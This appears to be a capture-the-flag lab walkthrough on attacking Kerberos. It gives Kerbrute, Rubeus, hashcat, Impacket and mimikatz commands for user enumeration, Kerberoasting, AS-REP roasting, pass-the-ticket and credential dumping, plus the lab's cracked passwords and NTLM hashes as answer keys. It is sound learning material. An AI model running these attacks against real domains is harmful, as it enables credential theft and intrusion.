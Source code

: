 Common Terminology -  

- **Ticket Granting Ticket (TGT)** - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
- **Key Distribution Center (KDC)** - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service.
- **Authentication Serv****ice (AS)** - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
- **Ticket Granting Service (TGS)** - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.  
    
- **Service Principal Name (SPN)** - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
- **KDC Long Term Secret Key (KDC LT Key)** - The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
- **Client Long Term Secret Key (Client LT Key)** - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
- **Service Long Term Secret Key (Service LT Key)** - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
- **Session Key** - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
- **Privilege Attribute Certificate (PAC)** - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

Often .kirbi for Rubeus, .ccache for Impacket

Answer the questions below

What does TGT stand for?
Answer: `Ticket granting ticket`

What does SPN stand for?
Answer: `Service Principal Name`

What does PAC stand for?
Answer: `Privilege Attribute Certificate`

What two services make up the KDC?
Answer: `AS, TGS`

# Task 2 Enumeration w/ Kerbrute

You need to add the DNS domain name along with the machine IP to /etc/hosts inside of your attacker machine or these attacks will not work for you - `10.10.173.199  CONTROLLER.local`

`./kerbrute userenum --dc controller.local -d controller.local User.txt`

```
  / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/17/23 - Ronnie Flathers @ropnop

2023/11/17 03:42:01 >  Using KDC(s):
2023/11/17 03:42:01 >   controller.local:88

2023/11/17 03:42:01 >  [+] VALID USERNAME:       administrator@controller.local
2023/11/17 03:42:01 >  [+] VALID USERNAME:       admin1@controller.local
2023/11/17 03:42:01 >  [+] VALID USERNAME:       admin2@controller.local
2023/11/17 03:42:04 >  [+] VALID USERNAME:       httpservice@controller.local
2023/11/17 03:42:04 >  [+] VALID USERNAME:       machine1@controller.local
2023/11/17 03:42:04 >  [+] VALID USERNAME:       machine2@controller.local
2023/11/17 03:42:04 >  [+] VALID USERNAME:       sqlservice@controller.local
2023/11/17 03:42:04 >  [+] VALID USERNAME:       user1@controller.local
2023/11/17 03:42:04 >  [+] VALID USERNAME:       user2@controller.local
2023/11/17 03:42:04 >  [+] VALID USERNAME:       user3@controller.local
2023/11/17 03:42:04 >  Done! Tested 100 usernames (10 valid) in 2.862 seconds
```


Answer: `10`

What is the SQL service account name?
Answer: `sqlservice`

What is the second "machine" account name?
Answer: `machine2`

What is the third "user" account name?
Answer: `user3`

# Task 3 Harvesting & Brute-Forcing Tickets w/ Rubeus



Which domain admin do we get a ticket for when harvesting tickets?
`rubeus.exe harvest /interval:30`
Answer: `administrator`

Which domain controller do we get a ticket for when harvesting tickets?
open `c:\windows\system32\drivers\etc\hosts` and add the ip and the name controller.local
`rubeus.exe brute /password:Password1 /noticket`

Answer: `controller-1`

# Task 4 Kerberoasting w/ Rubeus & Impacket


What is the HTTPService Password?

`rubeus.exe kerberoast`
Put the results into `hash.txt`, tidy them up, so its 2 lines starting with `$krb`
`hashcat -a 0 -m 13100 hash.txt Pass.txt`

Answer: `Summer2020`

What is the SQLService Password?

`python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.232.105 -request`
and Hashcat as above

Answer: `MyPassword123#`

# Task 5 AS-REP Roasting w/ Rubeus


`rubeus.exe asreproast`

Modify the hashes to read 
```
$krb5asrep$23$Admin2@CONTROLLER.local:<snip>
$krb5asrep$23$User3@CONTROLLER.local:<snip>
```

`hashcat -a 0 -m 18200 hash.txt Pass.txt`

What hash type does AS-REP Roasting use?
Answer: `Kerberos 5, etype 23, AS-REP`

Which User is vulnerable to AS-REP Roasting?
Answer: `user3`

What is the User's Password?
Answer: `Password3`

Which Admin is vulnerable to AS-REP Roasting?
Answer: `Admin2`

What is the Admin's Password?
Answer: `P@$$W0rd2`


# Task 6 Pass the Ticket w/ mimikatz

`mimikatz.exe`
`privilege::debug` returns `[output '20' OK]`
`sekurlsa::tickets /export` to dump the tickets

Look at the tickets in the folder and find a ticket you wish to use.

`kerberos::ptt [0;52094]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`
Exit mimikatz and verify we have the ticket by running
`klist`


# Task 7 Golden/Silver Ticket Attacks w/ mimikatz


What is the SQLService NTLM Hash?

```mimikatz
privilege::debug
lsadump::lsa /inject /name:sqlservice
```

Answer: `cd40c9ed96265531b21fc5b1dafcfb0a`


What is the Administrator NTLM Hash?

```mimikatz
privilege::debug
lsadump::lsa /inject /name:administrator
```

Answer: `2777b7fec870e04dda00cd7260f7bee6`

